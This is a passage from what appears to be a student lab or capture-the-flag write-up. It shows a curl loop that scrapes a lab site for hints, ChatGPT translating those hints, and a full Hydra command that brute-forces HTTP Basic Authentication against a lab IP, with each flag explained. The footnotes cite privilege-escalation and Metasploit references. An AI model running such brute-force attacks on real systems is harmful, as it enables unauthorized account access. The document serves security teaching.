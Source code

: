 {{< figure src="/itsi/y3/ex7/images/allesiten.png" title="Figure 7: Showing the contents of each page using curl" >}}

The `base64` message can be decoded by piping the string, using `echo`, into the `base64` command, which gives us the hint to use port `55487`, the site with authentication. This is shown in Figure 8.

{{< figure src="/itsi/y3/ex7/images/base64.png" title="Figure 8: Decoding the base64 message" >}}

To get all the random variants from the site with the foreign languages, I wrote a quick batch script to recursively relay the website and save the output in a file called `output`, as shown in Figure 9.

```bash
#!/bin/bash
while true;do
    body=$(curl -s 192.168.15:5155)
    echo "$body" >> output
    echo "$body"
done
```

{{< figure src="/itsi/y3/ex7/images/gettextsh.png" title="Figure 9: Running the script" >}}

After running it for a while, we prompted ChatGPT with the list of outputs to translate, which revealed the following hint, as shown in Figure 10.

{{< figure src="/itsi/y3/ex7/images/labngs.png" title="Figure 10: ChatGPT translating the hint" >}}

---

### Weaponization: Evaluating the needed tools

Now that we know the username and that it uses HTTP Basic Authentication, we can use Hydra to brute-force the password. For this, I have chosen the 10-million-password list as our wordlist.<cite>pw-list[^5]</cite>

---

### Exploitation: Using Hydra to break HTTP basic authentication

To brute force the password, the following `hydra` command will be used: `hydra -l user -P pw.txt -s 55487 -f 192.168.15.3 http-get /`<cite>hydra-http-basic-auth[^6]</cite>

```bash
-l user #specifying the username to attempt logging in with
-P pw.txt #tells Hydra to use the contents of pw.txt as passwords to try
-s 55487 #specifying the port to connect to
-f #telling Hydra to stop after a valid login
192.168.15.3 #setting the target IP address
http-get / #specifying the service and method to use
```

{{< figure src="/itsi/y3/ex7/images/hydra.png" title="Figure 11: Running the Hydra command to get the credentials" >}}


[^1]: This task definition and summary were generated using ChatGPT from the original bullet points.
[^2]: Lockheed Martin. Cyber Kill Chain®. [source](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html)
[^3]: Nmap. Service and Version Detection. [source](https://nmap.org/book/man-version-detection.html)
[^4]: Nmap. Timing Templates (-T). [source](https://nmap.org/book/performance-timing-templates.html)
[^5]: 10-million-password-list-top-10000.txt. [source](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt)
[^6]: Code Zen. Defeating HTTP Basic Auth with Hydra. [source](https://tylerrockwell.github.io/defeating-basic-auth-with-hydra)
[^7]: GeeksforGeeks. How to use Hydra to BruteForce SSH Connections? [source](https://www.geeksforgeeks.org/how-to-use-hydra-to-brute-force-ssh-connections)
[^8]: Ask Ubuntu. What does 2>/dev/null mean? [source](https://askubuntu.com/questions/350208/what-does-2-dev-null-mean)
[^9]: GeeksforGeeks. find command in Linux Linux Tutorial. [source](https://www.geeksforgeeks.org/find-command-in-linux-with-examples)
[^10]: Uppin, C. M. Series of CTF machines Walkthrough #4 Linux Privilege Escalation (Enumeration). [source](https://medium.com/techiepedia/series-of-ctf-machines-walkthrough-4-linux-privilege-escalation-enumeration-247899027be)
[^11]: Delinea. Linux Privilege Escalation. [source](https://delinea.com/blog/linux-privilege-escalation)
[^12]: Uppin, C. M. Series of CTF machines Walkthrough #5 Linux Privilege Escalation using Kernel Exploit. [source](https://cmuppin9.medium.com/series-of-ctf-machines-walkthrough-5-linux-privilege-escalation-using-kernel-exploit-e188970fb905)
[^13]: Uppin, C. M. Series of CTF machines Walkthrough #7 Linux Privilege Escalation using SUID permissions. [source](https://cmuppin9.medium.com/series-of-ctf-machines-walkthrough-7-linux-privilege-escalation-using-suid-permissions-7f82335e7547)
[^14]: Uppin, C. M. Series of CTF machines Walkthrough #6 Linux Privilege Escalation using SUDO permissions. [source](https://cmuppin9.medium.com/series-of-ctf-machines-walkthrough-6-linux-privilege-escalation-using-sudo-permissions-c517cb789bc6)
[^15]: linux-smart-enumeration. [source](https://github.com/diego-treitos/linux-smart-enumeration)
[^16]: Qualys Corporation. Linux Kernel - 'ldso_hwcap Stack Clash' Local Privilege Escalation. [source](https://www.exploit-db.com/exploits/42274)
[^17]: metasploit-framework/documentation/modules/payload/linux/x86/meterpreter/reverse_tcp.md at master · rapid7/metasploit-framework. [source](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/linux/x86/meterpreter/reverse_tcp.md)
[^18]: drd_. Null Byte. [source](https://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463)
[^19]: Metasploit Documentation. How to use msfvenom. [source](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
[^20]: LinuxConfig. Recover - Reset Forgotten Linux Root Password. [source](https://linuxconfig.org/recover-reset-forgotten-linux-root-password)